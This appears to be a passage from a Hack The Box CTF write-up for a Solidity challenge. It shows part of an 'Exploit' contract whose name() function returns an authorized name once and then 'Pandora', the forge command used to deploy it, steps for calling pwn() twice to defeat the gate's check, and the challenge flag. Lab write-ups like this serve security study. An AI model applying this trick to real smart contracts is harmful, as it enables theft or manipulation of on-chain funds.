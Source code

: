 ```solidity
            first = false;
            return "Orion";
        } else {
            return "Pandora";
        }
    }

    function pwn() public {
        targetContract.TARGET().enter();
    }
}
```
To deploy the `Exploit` contract, we used `foundry-rs` (you can find it here: https://github.com/foundry-rs/foundry) :
```shell
forge create Exploit --rpc-url <rpc_url> --private-key <private_key> --constructor-args <setup_contract_address> --value 100ether
```
After deploying the `Exploit` contract, call the `pwn()` function twice. On the first call, the `name()` function will return an authorized name, updating the `lastEntrant` variable in the `HighSecurityGate` contract. On the second call, the `name()` function will return `Pandora`, updating the `lastEntrant` variable to the desired value.
When the `lastEntrant` variable set to `Pandora`, the `isSolved()` function in the `Setup` contract will return `true`, indicating that the challenge has been successfully solved.

Flag is: **HTB{H1D1n9_1n_PL41n_519H7}**
